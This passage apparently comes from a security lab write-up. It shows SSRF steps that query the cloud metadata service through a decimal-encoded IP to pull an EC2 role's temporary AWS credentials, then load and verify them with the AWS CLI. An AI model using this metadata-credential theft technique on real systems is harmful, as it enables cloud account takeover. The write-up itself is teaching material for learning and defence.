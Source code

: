It shows the IAM Role Name, which is "ec2"
Now we can fetch the actual AWS credentials:

```
http://2852039166/latest/meta-data/iam/security-credentials/ec2
```

![AWS Credentials](images/aws_creds.png)

Perfect! We now have:
- `AccessKeyId`
- `SecretAccessKey` 
- `Token`
- `Expiration`

### Step 10: Using the AWS Credentials

Configure AWS CLI with the extracted credentials:

```bash
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
export AWS_DEFAULT_REGION="ap-south-1"
```

Verify the credentials:

```bash
aws sts get-caller-identity
```

![AWS Identity Verification](images/aws_identity.png)
